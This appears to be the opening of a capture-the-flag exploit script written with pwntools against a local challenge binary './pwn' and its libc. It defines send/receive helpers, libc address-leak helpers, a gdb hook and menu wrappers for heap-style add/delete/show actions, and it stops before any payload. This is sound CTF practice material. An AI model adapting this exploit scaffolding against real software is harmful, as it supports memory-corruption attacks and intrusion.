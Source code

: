 ### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
elf = ELF('./pwn')
libc=ELF('./libc.so.6')


add_idx = 1
delete_idx = 4
show_idx = 3
edit_idx = 2

def duan():
    gdb.attach(p)
    pause()

def choice(cho):
    sla('',cho)

def add(size,content):
    choice(add_idx)
    #sla('',idx)
    sla('enter the user ID : ',size)
    sla('enter the username : ',content)

def delete(idx):
    choice(delete_idx)
    sla('Index :',idx)

def show(idx):
    choice(show_idx)
    sla('Index :',idx)
```